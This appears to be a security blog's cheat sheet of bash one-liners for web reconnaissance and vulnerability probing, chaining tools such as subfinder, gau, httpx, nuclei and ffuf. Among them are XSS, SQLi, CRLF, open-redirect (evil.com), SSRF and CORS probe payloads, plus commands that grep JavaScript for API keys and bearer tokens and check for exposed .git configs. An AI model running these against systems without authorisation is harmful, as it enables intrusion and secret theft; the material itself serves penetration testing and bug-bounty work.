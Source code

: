 ```yaml
---
title: "Hacking One Liners"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [one-liners, subfinder, httpx, nuclei, ffuf, gau, gospider, naabu, bash, shuffledns, dnsx, notify, recon, automation, js, token-hunting]
order: 3
image: /assets/images/Cyber-Security/One-Liners.png
---
```


A curated collection of powerful, compact one-liners used throughout reconnaissance, scanning, and early exploitation workflows. These are quick-fire tools for chaining recon steps, automating scans, or rapidly discovering weak points.

## Subdomains → Live Hosts → Scan

```bash
subfinder -d example.com -silent | httpx -silent | nuclei -silent -t ~/nuclei-templates -o results.txt
```

## Passive URLs → Filter → Nuclei

```bash
gau example.com | grep -iE '\.php|\.asp|\.aspx|\.jsp' | httpx -silent | nuclei -silent -o tech-findings.txt
```

## Quick Port Discovery + Probing

```bash
naabu -host example.com -top-ports 100 | httpx -silent -title -status-code
```

## Subdomains → Resolve → Probing → Nuclei

```bash
subfinder -d example.com -silent | dnsx -silent | httpx -silent | nuclei -t cves/ -o cve-scan.txt
```

## Wordlist Fuzz → Live Endpoint Test

```bash
ffuf -u https://example.com/FUZZ -w common.txt -mc 200 | awk '{print $1}' | httpx -silent | nuclei -o ffuf-discovered.txt
```

## Passive + Active URL Collect + Scan

```bash
(subfinder -d example.com; gau example.com) | sort -u | httpx -silent | nuclei -o passive-active-results.txt
```

## Filter JavaScript Files for Review

```bash
gau example.com | grep '\.js$' | sort -u | httpx -silent -mc 200 | tee js-live.txt
```

## Crawl → Extract URLs → Scan

```bash
gospider -s https://example.com -t 10 -q | grep -oP 'https?://[^ ]+' | httpx -silent | nuclei -silent -o spider-findings.txt
```

## Nuclei Fast Severity Filter

```bash
cat live.txt | nuclei -severity high,critical -silent -o high-crit.txt
```

## JS → Endpoint Extraction (deep)

```bash
cat js-live.txt | xargs -n1 -I{} curl -s {} | grep -oP 'https?://[^\"]+' | sort -u
```

## Open Redirect Detection

```bash
gau target.com | grep "=" | qsreplace 'https://evil.com' | httpx -silent -location -fr -mc 301,302 | grep 'evil.com'
```

## Param Mining + Fuzz

```bash
gau target.com | uro | grep "=" | gf xss | qsreplace 'FUZZ' | ffuf -u FUZZEDURL -w payloads.txt -mc 200
```

## SSRF Testing

```bash
cat urls.txt | gf ssrf | qsreplace 'http://your-burp-collab.com' | httpx -silent -fr
```

## XSS Reflected Testing

```bash
cat urls.txt | grep "=" | qsreplace '<svg onload=alert(1)>' | httpx -silent -mc 200 -sr | grep '<svg onload=alert(1)>'
```

## Sitemap Extractor

```bash
curl -s https://target.com/sitemap.xml | grep -oP '(?<=<loc>).*?(?=</loc>)'
```

## Git Folder Check

```bash
httpx -l subs.txt -path /.git/config -mc 200
```

## HTTP Method Tester

```bash
for m in GET POST PUT DELETE OPTIONS TRACE PATCH; do curl -X $m -I https://target.com | grep HTTP; done
```

## Form Extraction

```bash
cat alive.txt | xargs -n1 -I{} curl -s {} | pup 'form json{}' | jq .
```

## CORS Misconfig Check

```bash
curl -H 'Origin: https://evil.com' -I https://target.com | grep 'Access-Control-Allow-Origin'
```

## SQLi Prober

```bash
gau target.com | grep "=" | qsreplace "'" | httpx -silent -mc 500,403,400
```

## CRLF Injection Test

```bash
cat urls.txt | qsreplace '%0d%0aPoC:CRLF' | httpx -silent -fr -mc 200 | grep 'PoC:CRLF'
```

## Email Discovery

```bash
gau target.com | xargs -n1 curl -s | grep -Ei '[a-z0-9._%+-]+@[a-z0-9.-]+\.[a-z]{2,}' | sort -u
```

## Find Secrets in JS

```bash
cat js-live.txt | xargs -n1 curl -s | grep -Eo 'API_KEY|api_key|secret|Bearer [A-Za-z0-9\\-_\\.]+' | sort -u
```

## Extension/Backup File Discovery

```bash
gau target.com | grep -iE '\.zip|\.gz|\.sql|\.tar|\.bak' | httpx -silent -mc 200
```

## Wayback Param Harvesting

```bash
gau target.com | cut -d '?' -f2 | cut -d '&' -f1 | sort -u
```

## Dangling Subdomain Takeover Check

```bash
subfinder -d target.com -silent | dnsx -a -cname -resp-only | grep -iE 'github|heroku|amazonaws'
```

## Mirror Target Webpage

```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://target.com
```

## Clean Noise from URLs

```bash
cat all-urls.txt | grep -vE '\.(png|jpg|jpeg|gif|svg|css|ico|woff|ttf|pdf)$' | sort -u
```

## Dedupe + Filter Live URLs

```bash
cat urls.txt | sort -u | httpx -silent -mc 200 | anew final.txt
```